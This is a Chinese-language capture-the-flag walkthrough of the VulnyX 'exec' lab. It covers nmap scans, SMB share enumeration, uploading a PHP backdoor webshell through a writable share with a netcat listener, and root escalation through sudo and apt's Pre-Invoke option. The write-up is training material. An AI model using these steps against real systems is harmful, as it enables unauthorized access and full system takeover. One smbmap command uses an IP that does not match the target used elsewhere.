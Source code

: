 # 环境

来自[vulnyx_exec](https://vulnyx.com/#exec)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240702094927543](image/image-20240702094927543.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```

![image-20240702095101684](image/image-20240702095101684.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,139,445 192.168.88.30
```

![image-20240702095234911](image/image-20240702095234911.png)

# smb渗透

访问80，发现只有测试页面，目录扫描也没有什么发现

## smb信息收集

所有对smb进行深度信息收集，工具使用enum4linux，netexec、smbmap都行

**enum4linux**

```bash
enum4linux -S 192.168.88.30
```

![image-20240702095443873](image/image-20240702095443873.png)

**netexec**

```bash
netexec smb //192.168.88.30 -u '' -p '' --shares
```

![image-20240702100108738](image/image-20240702100108738.png)

**smbmap**

```bash
smbmap --no-banner -H 192.168.1.74
```

![image-20240702112438255](image/image-20240702112438255.png)

发现这个server有读写权限

## 连接smb

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./shell.php
修改shell.php的ip和端口
smbclient //192.168.88.30 -U '' -N
smb: \> put shell.php
nc -lvvp 9999
```

![image-20240702100918349](image/image-20240702100918349.png)

访问`http://192.168.88.30/door.php`，即可拿shell

![image-20240702110028222](image/image-20240702110028222.png)

## sudo提权

[linux命令提权](https://gtfobins.github.io/)中的apt提权

```bash
$ /bin/script -qc /bin/bash /dev/null
www-data@exec:/$ sudo -l
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
www-data@exec:/$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/$ sudo -l
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
#apt提权可查看GTFBins
s3cur4@exec:/$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
root@exec:~# 
```

拿到root.txt中的flag
